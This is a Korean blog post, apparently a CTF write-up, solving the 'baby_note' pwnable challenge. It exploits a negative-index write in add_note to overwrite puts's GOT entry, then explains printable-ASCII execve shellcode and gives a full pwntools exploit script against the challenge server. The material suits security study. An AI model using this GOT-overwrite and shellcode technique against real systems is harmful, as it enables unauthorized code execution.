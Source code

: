 ```yaml
---
layout: post
title:  "baby_note ([pwnable.tw]-death note)"
date:   2020-09-23
categories: ["2020","pwnable"]
---
```


최근에 매주 월요일마다 pwnable 문제를 풀려고 하고 있는데, 친구가 이 문제를 풀어보라고 해서 풀어봤다. 처음에 뭔가 잘 보여서 쉽게 끝나나 했는데 아니었다ㅠㅠ.


내가 문제 풀려고 ida부터 키니까 `checksec`부터 하라고 훈수를 뒀다.
```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```
PIE가 꺼져있고, Full RELRO가 아니다. GOT를 덮어씌울 수 있을 것 같다.

GOT를 어떻게 덮어씌울 것인지 생각해보라 그랬다. 그래서 우리가 입력 넣어주는 부분을 찾아보니 `add_note`함수가 있다.

### add_note 함수 :

![](https://images.velog.io/images/bgeunjo/post/07569ece-3e53-4c90-8bee-e6fdc2d29e17/KakaoTalk_20200908_054454698.png)

`int`형에 Index를 입력받아서 음수의 인덱스도 참조가 가능하다. 그리고 내가 입력한 문자열(Name)을 `strdup()`을 사용해 heap에 복사해주고, 그 주소를 `note[v1]`에 써준다.

🤔 `note`변수는 전역 변수라서 `bss`영역에 있다. `bss`영역보다 좀 더 작은 주소에 `got`영역이 있다.

![](https://images.velog.io/images/bgeunjo/post/ec37a06d-25f0-49c5-8eae-0f05cd9d3efd/KakaoTalk_20200908_055258561.png)

`note`변수의 주소가 `0x0804a060`이다.
![](https://images.velog.io/images/bgeunjo/post/4c9000cc-e43f-41dc-9780-1a3f54388c6d/KakaoTalk_20200908_055306475.png)

`got`영역의 주소가 `0x0804a0~`이다.

❗ Index는  (`note` - 원하는 함수(`puts`)의 `got` ) / 4로 해주면 될 것 같다. 4를 나눠주는 이유는 `v1`이 `int`라서 index * 4 만큼 주소가 커지거나 작아지기 때문이다
- 근데 / 2 해줬음.. 그래야 맞게 들어가던데 왜 그런지는 잘 모르겠다.

그럼 이제 `puts()'s got`에는 `strdup()`에 의해 내가 쓴 문자열이 복사된 곳의 주소(`heap`)가 쓰이게 된다. 그럼 내가 쓴 문자열(명령어)이 실행이 되는 것이다.

그래서 쉘코드를 쓰려고 하는데 넣을 수 있는 문자에 제한이 걸려있다.

![](https://images.velog.io/images/bgeunjo/post/e62e817c-262b-4628-976d-901206ef1598/KakaoTalk_20200908_055727963.png)

아스키코드 범위 `0x20` ~ `0x7e`의 값만 쓸 수 있다. 그래서 Ascii shellcode를 검색해서 쓰려고 하는데 잘 안된다.. 여기서 시간을 되게 많이 썼다.

🤔 우리가 평소에 쓰는 쉘코드(`shellcraft.sh()`)는 `execve(path='/bin///sh', argv=['sh'], envp=0)` 이다. `argv`는 `NULL`이 되어도 된다. 

❗ 이제 해야할 일이 정해졌다! 
- `syscall(int 80)`을 이용해 `execve`를 호출할 것이기 때문에 `syscall` 호출 규약에 맞게 인자를 세팅해준다.
- `syscall_table`을 참고하면 `execve`는 `eax=11`일 때 실행 된다.

### 쉘코드 작성

쉘코드를 작성해보자.

```
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    push esp
    pop ebx      
    push 0x31
    pop eax
    xor al,0x31
    dec eax
    xor ax,0x3f50
    xor ax,0x4062
    push eax
    pop edi                               
    push 0x3b    
    pop eax
    xor al,0x30
    push edx
    pop esi
    push ecx
    pop edx
    push edx
    pop edx
    push edx
    pop edx
    push edx
    xor [esi+0x30],di
```

처음부터 ㅂㅂㅈ ㅂㅂㅈ~ 🚀

```
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
```
문자열 `/bin///sh`를 스택에 푸쉬해준다. `/bin/sh`가 아니라 `/bin///sh`를 쓴 이유가 뭘까?
- `/bin/sh`를 쓰게 되면 `push 0x68732f`를 하게 된다. 즉 opcode에 `0x00`이 포함되게 되어, 허용되는 아스키코드 범위를 벗어난다.
- `/bin//sh`를 해주게 되면 `push 0x68732f2f`를 하게 되는데, 끝에 `NULL`이 없어 내가 원치 않는 문자열까지 뒤에 연결되게 된다.

```
    push esp
    pop ebx
```
`ESP`는 현재 `/bin///sh`를 가리키고 있다. 그 문자열의 주소를 `EBX`에 넣어준다. `syscall`의 매개변수 세팅을 위해서다.


```
    push 0x31
    pop eax
    xor al,0x31
    dec eax
    xor ax,0x3f50
    xor ax,0x4062
    push eax
    pop edi   
```

`EAX`를 0으로 세팅한 후, 1을 감소시켜서 `0xffffffff`로 만든다. 가장 만드는데 골치 아픈 `0x80cd`(int 0x80=`syscall`) opcode를 편하게 만들기 위해 1을 다 on 시켜준 것이다. 그리고 적당한 값을 xor해서 `0x80cd`를 만들어준다. `xor eax, ~`는 허용되는 아스키코드 범위를 넘어가는 opcode를 만들기 때문에 `xor ax, ~`로 해준다. 
그렇게 만든 값을 `edi`에 넣어준다. `eax`는 이 후에도 써야 하는데, `edi`는 쓰이는 곳이 없기 때문이다.

```
    push 0x3b    
    pop eax
    xor al,0x30
````

`execve()`를 호출하기 위해서는 `syscall`할 때 `eax=11`이어야 하기 때문에, 세팅해준다.

```
    push edx
    pop esi
    push ecx
    pop edx
```

`puts()`를 실행시키는 시점에 `edx`는 내가 쓴 문자열의 시작주소(`heap`)를 가리키고 있다.
근데 `syscall` 매개변수 세팅해줄 때 `edx=0`을 맞춰줘야 하기 때문에 `esi`에 넣어놓고, 이미 0이었던 `ecx`를 이용해 `edx`를 0으로 만든다.(이거 까먹어서 욕먹음 ㅠ)

``` 
    push edx
    pop edx
    push edx
    pop edx
    push edx
    xor [esi+0x30],di
```
`xor [esi+0x30],di`에서 `0x30`은 내가 입력한 명령어의 총 길이다. 문자열(명령어)이 끝나는 곳에 `0x80CD`를 넣어준다.
마지막에 `push edx pop edx` 들은 길이를 맞춰주려고 아무거나 넣은거다. 걍 아스키코드 범위에 들어가는 거 아무거나 써도 된다. 길이를 안 맞춰주니까 내가 쓴 문자열 + a 에 이미 쓰여진 값이 있었는데, 그 값에 영향을 받아 원하는 값이 안 들어갔다. 

![](https://images.velog.io/images/bgeunjo/post/a9b97bed-28fe-4794-a520-658cf7665e5f/baby_note3.PNG)

`xor [esi+0x30],di`을 실행하는 시점의 레지스터 상태이다. `syscall`의 매개변수로 쓰이는 `ecx`,`edx`는 0으로 세팅되어 있고 `ebx`는 `/bin///sh`를 주소를 담고 있다.
`syscall_table`에서 `execve()`에 해당하는 11(`0xb`)가 `eax`에 세팅되어 있다. `edi` 중에서 `di`부분만 보면 `0x80cd(int 0x80)`로 세팅되어 있다.

![](https://images.velog.io/images/bgeunjo/post/110ae669-66df-48db-8e8c-69c6956f833b/baby_note2.PNG)

마지막 명령어를 실행하고 나면 위치에 딱 맞게 `int 0x80`이 들어간 것을 확인할 수 있다. 이제 저 명령어(`syscall`)를 실행해주면 쉘이 따진다!

### Exploit code

``` python
from pwn import *
import sys

if len(sys.argv) != 2:
    log.info("try options -l for local, -r for remote")
    exit()
if sys.argv[1].strip()=='-l':
    p=process('./baby_note')
elif sys.argv[1].strip()=='-r':
    p=remote("srv.cykor.kr",31009)

#context.log_level='debug'
e=ELF('./baby_note')

bss=e.bss()
puts_got=e.got['puts']
offset=(puts_got-bss)/2

shellcode="""
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    push esp
    pop ebx      
    push 0x31
    pop eax
    xor al,0x31
    dec eax
    xor ax,0x3f50
    xor ax,0x4062
    push eax
    pop edi                               
    push 0x3b    
    pop eax
    xor al,0x30
    push edx
    pop esi
    push ecx
    pop edx
    push edx
    pop edx
    push edx
    pop edx
    push edx
    xor [esi+0x30],di
"""
shellcode=asm(shellcode)
log.info("shellcode Length: "+str(hex(len(shellcode))))
log.info(shellcode)

#gdb.attach(p)
p.recvuntil("Your choice :")
p.sendline("1")
p.recvuntil("Index :")
p.sendline(str(offset))
p.recvuntil("Name :")
#raw_input()
p.sendline(shellcode)
#raw_input()
p.interactive()
```

![](https://images.velog.io/images/bgeunjo/post/39c971db-d3e5-4a04-abe2-84b06ae0490d/shell.PNG)